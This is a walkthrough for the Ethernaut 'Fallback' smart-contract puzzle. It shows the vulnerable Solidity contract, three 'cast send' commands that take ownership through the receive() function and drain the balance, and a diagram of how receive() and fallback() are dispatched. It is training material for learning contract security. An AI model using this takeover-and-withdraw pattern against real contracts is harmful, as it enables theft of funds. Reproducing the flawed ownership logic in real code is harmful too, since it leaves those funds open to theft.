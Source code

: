 # 1. Fallback 

## Problem Outline

**Difficulty : 1/10**

You will beat this level if:
1. you claim ownership of the contract
2. you reduce its balance to 0

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## Solution

We need to trigger the callback function after having contributed some ETH to become the owner.

### Walkthrough
Contributing some eth using the "contribute()" function
```
cast send $LEVEL_ADDRESS "contribute()" --value 0.0001ether --private-key=$PRIVATE_KEY
```

Triggering the fallback function **receive()** by sending a eth transaction with an empty data field
```
cast send $LEVEL_ADDRESS --value 0.0001ether --private-key $PRIVATE_KEY
```

Draining the contract
```
cast send $LEVEL_ADDRESS "withdraw()" --private-key $PRIVATE_KEY
```
## Further Reading

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)
```
    Ether is sent to contract?
                |
        is msg.data empty?
                / \
               /   \
             yes    no  
             /       \    
        receive()    fallback()
         exist?                      
        /     \
       yes     no          
      /         \
  receive()     fallback()
```

